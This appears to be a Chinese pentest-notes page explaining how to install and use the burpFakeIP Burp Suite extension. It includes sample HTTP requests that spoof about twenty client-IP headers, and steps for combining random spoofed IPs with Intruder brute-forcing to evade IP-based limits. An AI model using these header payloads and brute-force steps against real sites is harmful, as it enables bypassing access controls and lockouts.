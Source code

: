 # FAKE-IP

### 1、下载地址

https://github.com/TheKingOfDuck/burpFakeIP

### 2、安装插件

1、解压到本地

2、打开burpsuite，选择Extender，Add

![](../../.gitbook/assets/image%20%28298%29.png)

3、选择下载好python插件，选择下一步

![](../../.gitbook/assets/image%20%28297%29.png)

4、安装成功

![](../../.gitbook/assets/image%20%28337%29.png)

### 3、使用方法

1、伪造指定ip，右击抓到的数据包，选择fakeip，inputIP

![](../../.gitbook/assets/image%20%28300%29.png)

2、输入想要用的ip地址，点击确定，自动添加

![](../../.gitbook/assets/image%20%28311%29.png)

3、伪造本地ip，右击数据包选择127.0.0.1，自动生成如下数据包

![](../../.gitbook/assets/image%20%28338%29.png)

```text
GET / HTTP/1.1
Host: 192.168.1.135:8002
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: ASPSESSIONIDAACSRSQS=CJLFMKFBLOABHEPKPBEKLPOA; ASPSESSIONIDAACSRTRT=HOAFJLFBABBHLECCHJEGMIMO
DNT: 1
Connection: closeUpgrade-Insecure-Requests: 1
X-Forwarded-For:127.0.0.1
X-Forwarded:127.0.0.1
Forwarded-For:127.0.0.1
Forwarded:127.0.0.1
X-Forwarded-Host:127.0.0.1
X-remote-IP:127.0.0.1
X-remote-addr:127.0.0.1
True-Client-IP:127.0.0.1
X-Client-IP:127.0.0.1
Client-IP:127.0.0.1
X-Real-IP:127.0.0.1
Ali-CDN-Real-IP:127.0.0.1
Cdn-Src-Ip:127.0.0.1
Cdn-Real-Ip:127.0.0.1
CF-Connecting-IP:127.0.0.1
X-Cluster-Client-IP:127.0.0.1
WL-Proxy-Client-IP:127.0.0.1
Proxy-Client-IP:127.0.0.1
Fastly-Client-Ip:127.0.0.1
True-Client-Ip:127.0.0.1
```

3、伪造随机IP，右击数据包选择randomIP，生成如下数据包

```text
GET / HTTP/1.1
Host: 192.168.1.135:8002
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: ASPSESSIONIDAACSRSQS=CJLFMKFBLOABHEPKPBEKLPOA; ASPSESSIONIDAACSRTRT=HOAFJLFBABBHLECCHJEGMIMO
DNT: 1
Connection: closeUpgrade-Insecure-Requests: 1
X-Forwarded-For:37.120.247.234
X-Forwarded:37.120.247.234
Forwarded-For:37.120.247.234
Forwarded:37.120.247.234
X-Forwarded-Host:37.120.247.234
X-remote-IP:37.120.247.234
X-remote-addr:37.120.247.234
True-Client-IP:37.120.247.234
X-Client-IP:37.120.247.234
Client-IP:37.120.247.234
X-Real-IP:37.120.247.234
Ali-CDN-Real-IP:37.120.247.234
Cdn-Src-Ip:37.120.247.234
Cdn-Real-Ip:37.120.247.234
CF-Connecting-IP:37.120.247.234
X-Cluster-Client-IP:37.120.247.234
WL-Proxy-Client-IP:37.120.247.234
Proxy-Client-IP:37.120.247.234
Fastly-Client-Ip:37.120.247.234
True-Client-Ip:37.120.247.234
```

4、随机ip爆破，伪造随机ip爆破是本插件最核心的功能。

![](../../.gitbook/assets/image%20%28302%29.png)

将数据包发送到Intruder模块,在Positions中切换Attack type为Pitchfork模式,选择好有效的伪造字段,以及需要爆破的字段

![](../../.gitbook/assets/image%20%28299%29.png)

将Payload来源设置为Extensin-generated,并设置负载伪fakeIpPayloads,然后设置第二个变量。

![](../../.gitbook/assets/image%20%28292%29.png)

点击Start attack开始爆破.



